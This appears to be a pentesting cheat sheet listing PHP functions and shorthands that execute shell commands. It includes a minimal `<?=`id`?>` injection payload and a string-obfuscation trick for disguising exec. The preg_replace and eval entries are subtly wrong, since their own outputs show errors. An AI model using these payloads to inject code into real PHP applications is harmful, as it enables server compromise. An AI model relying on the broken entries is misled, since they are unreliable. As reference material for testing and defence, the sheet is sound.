 ## General note regarding PHP tags
```php
// this is a valid php tag
<?php phpinfo(); ?>
// this is equavalent to <?php echo phpinfo(); ?>
<?=phpinfo()?>
// this is the shortest payload i know to execute code
<?=`id`?>
```

## Bracketless Shell Execution: `Backtick`
```php
php > echo `id`;
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Passthru` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > passthru("id");
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Proc_open` (PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)
```php
# first, define this variable
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
# start execution
php > proc_open('id > /tmp/id_output.txt', $descriptorspec, $pipes);
# verifying the execution occured
php > passthru('cat /tmp/id_output.txt');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `Shell_exec` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > echo shell_exec('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `System` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > system('id');
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `pcntl_exec` (PHP 4 >= 4.2.0, PHP 5, PHP 7, PHP 8)
```php
php > pcntl_exec('/bin/bash', array('-c', 'id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Shell Execution: `popen` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > popen('id', 'w');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```

## Interesting shorthands
```php
// ternary operator (PHP >= 5.3)
1?`id`:1;
// Null coalescing (PHP >= 7)
`id`??1;
// some obfuscation: equivalent to exec
str_replace('z', 'e', 'zxzc')("id");
```

---

## PHP Execution: `Preg_replace` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > preg_replace('/.*/e', system('id') );
```
### output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Warning:  Uncaught ArgumentCountError: preg_replace() expects at least 3 arguments, 2 given in php shell code:1
Stack trace:
#0 php shell code(1): preg_replace()
#1 {main}
  thrown in php shell code on line 1
```

## PHP Execution: `Eval` (PHP 4, PHP 5, PHP 7, PHP 8)
```php
php > eval(system('id'));
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
PHP Parse error:  syntax error, unexpected token "=" in php shell code(1) : eval()'d code on line 1
```

## PHP Execution: `Create_Function` (PHP < 8.0.0)
```php
php > $newfunc = create_function('$cmd', 'system($cmd);');
php > $newfunc('id');
```
### Output
```
uid=0(root) gid=0(root) groups=0(root)
```